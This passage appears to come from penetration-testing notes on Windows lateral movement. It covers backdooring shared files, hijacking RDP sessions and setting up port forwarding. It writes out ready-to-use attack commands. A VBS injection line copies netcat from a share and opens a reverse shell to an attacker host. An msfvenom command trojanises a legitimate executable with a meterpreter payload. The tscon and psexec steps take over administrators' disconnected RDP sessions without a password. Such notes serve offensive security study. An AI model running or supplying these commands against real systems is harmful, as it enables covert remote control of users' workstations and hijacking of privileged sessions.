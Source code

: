 Sometimes administrators will place an executable in a writable share so each user won't have to download the app, if we have write permissions we can backdoor them so the user will execute the payload we want.

![[70e361f2a43b498e5d487d0394bd0a87.png]]

When a user executes a shortcut located in his system, the executable will be copied from the server to his %temp% directory and executed on the workstation by the logged in account.

##### Backdooring .vbs Scripts

If the resource is a VBS script, we can put a copy of nc64.exe on the share and inject the following code in the shared script:

`CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\<ip address>\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> <port>", 0, True`

When the user will open the VBS script it will copy the nc64.exe file to his %tmp% directory and will execute the reverse shell.

##### Backdooring .exe Files

If the shared file is a windows binary you can inject a backdoor with msfvenom, the file will work like regular while running the reverse shell in the background:

`msfvenom -a x64 --platform windows -x <.exe file> -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=<port> -b "\x00" -f exe -o <output file name>`

##### RDP hijacking

When Administrator connects to a machine trough RDP and closes the RDP client instead of logging off, the session will remain open indefinitely. If you have SYSTEM privileges on a Windows Server 2016 or earlier, you can take over existing RDP session without a password.

`<PsExec64.exe location> -s cmd.exe` - Use psexec to run CMD With SYSTEM privileges (you have to run CMD as administrator first).
`query user/session` - List the existing sessions on a server.

Sessions with a Disc state means the user left the session open and isn't using it at the moment, we can take over active session too (currently using) but it will kick the current user and will raise suspicion.

`tscon <session id> /dest:<current session name>` - Connect to a session using the active session name owned by the user you are currently connected with.

## Port Forwarding

Some ports may be blocked by the administrator or he can put segmentation around the network, we can use Port Forwarding the get around this.

##### SSH Tunneling

SSH as a built-in functionality to port forwarding (SSH Tunneling), Windows is now ships with OpenSSH client by default.

Let's say we gained access to PC-1 and want to access a port on another machine to which we can't directly connect to, we can start a tunnel from PC-1 machine using SSH client (since SSH server isn't usually installed on Windows systems) to our machine which will act as SSH server.
